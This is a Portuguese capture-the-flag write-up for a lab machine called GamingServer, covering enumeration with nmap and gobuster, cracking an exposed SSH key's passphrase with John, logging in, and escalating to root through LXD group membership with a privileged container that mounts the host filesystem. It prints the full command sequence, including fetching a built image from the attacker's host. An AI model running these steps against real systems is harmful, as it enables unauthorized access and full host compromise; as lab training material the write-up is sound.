# _**GamingServer CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan Nmap
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```  


Vamos também realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```  
  

Vamos investigar cada um destes diretórios
* index.html [1]
* robots.txt [2]
* secret [3]
* upload [4]  

<mark>Primeiro diretório</mark>  
Temos um nome no código da página: <mark>john</mark>  

  

<mark>Segundo diretório</mark>  
Apenas o conteúdo sobre _user-agent_ e também um diretório: <mark>/uploads</mark>  

  

<mark>Terceiro diretório</mark>  
Parece que temos um arquivo secreto. Uma chave  



Vamos fazer o download com o comando ```wget```
> ```bash
> wget http://[ip_address]:80/secret/secretKey
> ```  


## _**Ganhando acesso**_

Podemos tentar quebrar a chave RSA com <mark>John</mark>
> ```bash
> ssh2john secretKey > key.hash
> ```
> ```bash
> john -w=../wordlists/rockyou.txt key.hash
> ```  


Temos uma senha!!!  
Temos um nome descoberto e também uma senha. Podemos tentar login SSH
* username: <mark>john</mark>
* password: <mark>letmein</mark>

Vamos dar permissão para <mark>secretKey</mark> e vamos realizar login via SSH
> ```bash
> chmod 600 secretKey
> ```
> ```bash
> ssh -i secretKey john@[ip_address]
> ```  


Com um ```cat user.txt``` temos nossa primeira _flag!_

## _**Escalando privilégios**_
Agora, para conseguirmos _root_, vamos começar com um simples comando
> ```bash
> sudo -l
> ```
Pede permissão com senha, e <mark>letmein</mark> não funcionou
Vamos buscar outra maneira
> ```bash
> find /bin -perm -4000
> ```  


Um destes diretórios chama a atenção, <mark>/bin/ping</mark>
Vamos verificar com ```ls -l```  


Isso quer dizer que é executado como _root_
Podemos escalonar privilégios através dali
Vamos tentar:
> ```bash
> echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/cat
> ```
> ```bash
> chmod +x /tmp/ip
> ```
> ```bash
> export PATH=/tmp:$PATH
> ```
> ```bash
> cat /root/root.txt
> ```

Após algum tempo sem nenhum retorno, vamos ter que buscar outra opção  
Investigando a máquina, temos um _**id**_ que chama a atenção: <mark>Lxs</mark>  
Pesquisando no google, podemos escalar privilégios através dela  
Vamos executar os seguintes comandos:
> ```bash
> git clone  https://github.com/saghul/lxd-alpine-builder.git | cd lxd-alpine-builder | ./build-alpine
> ```
> ```bash
> python3 -m http.server
> ```
> ```bash
> wget [vpn_ip_address]:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
> ```
> ```bash
> lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
> ```
> ```bash
> lxc init myimage ignite -c security.privileged=true
> ```
> ```bash
> lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
> ```
> ```bash
> lxc start ignite
> ```
> ```bash
> lxc exec ignite /bin/sh
> ```
> ```bash
> pwd
> ```
> ```bash
> cd ..
> ```
> ```bash
> ls
> ```
> ```bash
> cat root/root/root.txt
> ```

